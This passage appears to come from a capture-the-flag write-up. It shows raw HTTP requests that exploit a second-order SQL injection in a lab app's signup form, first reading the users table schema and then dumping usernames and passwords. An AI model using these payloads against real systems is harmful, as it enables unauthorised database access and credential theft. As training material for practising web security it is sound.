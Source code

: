 ```http
POST /challenge4/signup HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Origin: http://10.10.223.194:5000
DNT: 1
Connection: close
Referer: http://10.10.223.194:5000/challenge4/signup
Cookie: session=eyJtYWluYXBwX3F1ZXJ5IjpmYWxzZX0.YQ0v6g.qh-mXSAfN1fNPh022bWlNfHkV3c
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=tgihf'+UNION+SELECT+'CREATE%20Statement',sql+FROM+sqlite_master+WHERE+type='table'+AND+name='users'--&password=pass
```

```http
GET /challenge4/notes HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJxdyDsOgCAQBcCrkG1oaEyMBZchG3wICazIpzDGu9s75TzkI-cMObC62dFc2skum_m_cAFZGkeKQasp6RTVkeGH0r6BB1QfZKhwEq7VXRPtJhs4d7wfTRYklw.YQ05Qw.AWP2BhNY5RAOADCqIoaoOTXjvLI
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```

The following `CREATE` statement was used to create the `users` table:

```sql
CREATE TABLE users ( id integer primary key, username text unique not null, password text not null )
```

Dump the `users` table.

```http
POST /challenge4/signup HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://10.10.223.194:5000
DNT: 1
Connection: close
Referer: http://10.10.223.194:5000/challenge4/signup
Cookie: session=eyJtYWluYXBwX3F1ZXJ5IjpmYWxzZX0.YQ0v6g.qh-mXSAfN1fNPh022bWlNfHkV3c
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=tgihf'+UNION+SELECT+'creds',username||':'||password+FROM+users--&password=pass
```
